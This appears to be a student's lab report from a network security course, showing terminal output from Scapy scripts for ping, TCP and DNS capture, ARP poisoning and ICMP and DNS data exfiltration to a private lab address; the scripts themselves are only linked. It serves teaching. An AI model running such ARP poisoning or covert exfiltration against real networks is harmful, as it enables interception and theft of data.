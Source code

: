 # TP4 SECU : Exfiltration

## I. Getting started Scapy

**🌞 ping.py**

```bash
slayyzer@Slayz:~/Ynov/b2-network-2024$ sudo /bin/python3 ping.py 
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=7c:5a:1c:d3:d8:76 src=b0:dc:ef:bb:ff:9e type=IPv4 |<IP  frag=0 proto=icmp src=10.33.73.81 dst=1.1.1.1 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=b0:dc:ef:bb:ff:9e src=7c:5a:1c:d3:d8:76 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=36798 flags= frag=0 ttl=55 proto=icmp chksum=0x9eaf src=1.1.1.1 dst=10.33.73.81 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 unused=b'' |<Padding  load=b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>>)
```
[Voir code](./Scripts/ping.py)


**🌞 tcp_cap.py**

```bash
slayyzer@Slayz:~/Ynov/b2-network-2024/TP4$ sudo /bin/python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 1.1.1.1
- Adresse IP dst : 10.33.73.81
- Port TCP src : 80
- Port TCP dst : 55592
```
[Voir code](./Scripts/tcp_cap.py)


**🌞 dns_cap.py**

```bash
slayyzer@Slayz:~/Ynov/b2-network-2024/TP4$ sudo /bin/python3 dns_cap.py 
Begin emission:
Finished sending 1 packets.
...*
Received 4 packets, got 1 answers, remaining 0 packets
104.26.10.233
```
[Voir code](./Scripts/dns_cap.py)


**🌞 dns_lookup.py**
```bash
slayyzer@Slayz:~/Ynov/b2-network-2024/TP4$ sudo /bin/python3 dns_lookup.py 
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
104.26.10.233
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
142.250.200.206
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
140.82.121.3
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
82.67.64.82
```
[Voir code](./Scripts/dns_lookup.py)


## II. ARP Poisoning

```bash
[slayz@localhost ~]$ ip n s
**192.168.56.148 dev enp0s3 lladdr b0:dc:ef:bb:ff:9e STALE**
192.168.56.102 dev enp0s3 lladdr 08:00:27:f8:a8:b0 STALE 
192.168.56.1 dev enp0s3 lladdr 0a:00:27:00:00:00 REACHABLE 
```
[Voir code](./Scripts/arp_poisoning.py)


## III. Exfiltration ICMP
**🌞 icmp_exf_send.py**
```bash
slayz@debian:~/Repo Git/b2-network_2024-2025$ sudo python3 TP4/Scripts/icmp_exf_send.py 192.168.1.11 j
.
Sent 1 packets.
```
[Voir code](./Scripts/icmp_exf_send.py)  
[Voir trame Wireshark sur le icmp send]('./TP4/icmp_exf_send.pcapng')

## III. Exfiltration DNS

**🌞 dns_exfiltration_send.py**
```bash
slayz@debian:~/Repo Git/b2-network_2024-2025$ sudo python3 TP4/Scripts/dns_exfiltration_send.py 192.168.1.11 test
.
Sent 1 packets.
```
[Voir code](./Scripts/dns_exfiltration_send.py)  
[Voir trame Wireshark sur le dns exfiltration]('./TP4/dns_exfiltration_send.pcapng')


Désolé je n'ai pas fais les bonus mais je deteste dev sorry Léo 😅 meow